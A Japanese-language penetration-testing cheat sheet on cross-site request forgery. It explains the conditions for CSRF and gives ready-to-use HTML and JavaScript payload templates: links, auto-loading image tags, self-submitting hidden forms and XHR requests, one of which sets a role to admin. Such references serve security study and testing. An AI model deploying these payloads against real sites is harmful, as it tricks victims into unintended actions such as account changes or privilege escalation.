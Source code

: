 ## 前提知識

---
## 脆弱性の説明
CSRFは、攻撃者がユーザに意図しない操作を実行させることを可能にする脆弱性。

- **CSRFの条件**
	- 関連するアクション
		- 攻撃者は、アプリケーション内で何らかのアクションを誘発する必要がある。代表的なのは、パスワード変更。
	- Cookieベースのセッション処理
		- CSRF Tokenだったり、類似の目的で使わるものがないこと。
	- 予測不可能なリクエストパラメータ
		- アクションを実行するリクエストに予測不可能なパラメータが含まれないこと。

---
## 悪用方法の説明
1. 自分が管理しているサイトに、悪意のあるHTMLを配置し、被害者を誘導する。
2. 以下のリクエストをユーザに送信させる。
```
<img src="https://vulnerable-website.com/email/change?email=pwned@evil-user.net">
```

---
## Tools
- https://github.com/0xInfection/XSRFProbe
- https://github.com/0xInfection/CSRFPocGenerator.git

# # 簡単な攻撃
```payload
# HTML GET
<a href=”http://vulnerable/endpoint?parameter=CSRFd">Click</a>

# HTML GET (no interaction)
<img src=”http://vulnerable/endpoint?parameter=CSRFd">

# HTML POST:
<form action="http://vulnerable/endpoint" method="POST">
<input name="parameter" type="hidden" value="CSRFd" />
<input type="submit" value="Submit Request" />
</form>

# HTML POST (no interaction)
<form id="autosubmit" action="http://vulnerable/endpoint" method="POST">
<input name="parameter" type="hidden" value="CSRFd" />
<input type="submit" value="Submit Request" />
</form>
<script>
document.getElementById("autosubmit").submit();
</script>

# JSON GET:
<script>
var xhr = new XMLHttpRequest();
xhr.open("GET", "http://vulnerable/endpoint");
xhr.send();
</script>

# JSON POST
<script>
var xhr = new XMLHttpRequest();
xhr.open("POST", "http://vulnerable/endpoint");
xhr.setRequestHeader("Content-Type", "text/plain");
xhr.send('{"role":admin}');
</script>
```
---
## 参考文献
- https://github.com/six2dez/pentest-book/blob/master/enumeration/web/csrf.md